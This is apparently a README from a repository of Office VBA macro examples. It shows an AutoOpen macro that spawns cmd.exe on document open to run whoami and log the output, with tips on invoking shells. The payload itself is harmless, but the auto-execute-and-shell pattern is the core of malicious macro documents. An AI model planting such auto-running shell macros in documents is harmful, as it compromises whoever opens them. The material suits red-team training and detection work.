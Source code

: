 # whoami

Runs `whoami` and sends output to `whoami_log.txt` (hard-coded file name).

## Visual Basic Code

```
Sub AutoOpen()
EZ
End Sub

Public Function EZ() As Variant
    Call Shell("cmd.exe /c whoami >> whoami_log.txt", 4)
End Function
```

### Code Explanation

The `Sub AutoOpen()` function runs `EZ` automatically when the document is
opened. This behavior is likely to be blocked by endpoint security software.

The `Shell()` function call calls cmd.exe to run `whoami`, and redirects
the output to `whoami_log.txt` in the current working directory.

Using `Shell()` to call a specific shell like cmd or Powershell is
preferable to trying to use commands within `Shell()` itself.

## References

* [Office VBA Reference - Auto Macros](https://docs.microsoft.com/en-us/office/vba/word/concepts/customizing-word/auto-macros)
* [Office VBA Reference - Shell function](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/shell-function)